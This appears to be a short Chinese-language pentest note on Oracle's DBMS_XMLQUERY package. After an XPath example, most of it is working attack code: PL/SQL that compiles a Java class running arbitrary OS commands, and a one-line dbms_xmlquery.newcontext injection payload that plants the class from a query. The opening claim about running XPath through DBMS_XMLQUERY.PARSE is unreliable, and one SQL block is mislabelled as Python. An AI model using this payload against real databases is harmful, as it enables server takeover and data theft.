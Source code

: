 **执行 XPath 查询：**

使用 `DBMS_XMLQUERY` 包中的 `PARSE` 函数执行 XPath 查询。

```sql
DECLARE
  xml_document XMLType := XMLType('<root><element>Value</element></root>');
  result XMLType;
BEGIN
  result := DBMS_XMLQUERY.PARSE(xml_document, '/root/element/text()');
  DBMS_OUTPUT.PUT_LINE('Result: ' || result.getStringVal());
END;
/
```

```sql
DECLARE
   PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
   EXECUTE IMMEDIATE 'CREATE OR REPLACE AND COMPILE JAVA SOURCE NAMED "LinxUtil" AS
                      import java.io.*;
                      public class LinxUtil extends Object {
                          public static String runCMD(String args) {
                              try {
                                  BufferedReader myReader = new BufferedReader(new InputStreamReader(
                                      Runtime.getRuntime().exec(args).getInputStream()));
                                  String stemp, str = "";
                                  while ((stemp = myReader.readLine()) != null)
                                      str += stemp + "\n";
                                  myReader.close();
                                  return str;
                              } catch (Exception e) {
                                  return e.toString();
                              }
                          }
                      }';
   COMMIT;
END;
/
```

首先Declare启动匿名PL/SQL的生命, `PRAGMA AUTONOMOUS_TRANSACTION;` 声明自治事务。自治事务允许独立于主事务提交更改。当您想要执行某些即使主事务回滚也应提交的操作时，通常使用此方法。

然后执行一段语句.

`COMMIT` 语句用于提交在自治事务中所做的更改。这确保了在数据库中永久创建和编译 Java 源代码。

先创建了一个类和方法

```python
select dbms_xmlquery.newcontext('declare PRAGMA AUTONOMOUS_TRANSACTION;begin execute immediate ''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args) {try{BufferedReader myReader= new BufferedReader(new InputStreamReader( Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'';commit;end;') from dual;
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1703811733297-72984c18-cd3e-4d12-8e41-9d644f1b5ec0.png#averageHue=%231f1f1f&clientId=ueb947172-4289-4&from=paste&height=202&id=ud41b24bf&originHeight=182&originWidth=1107&originalType=binary&ratio=0.8999999761581421&rotation=0&showTitle=false&size=26441&status=done&style=none&taskId=ufbdf330d-819c-4f67-a8c0-353488c6431&title=&width=1230.0000325838732)
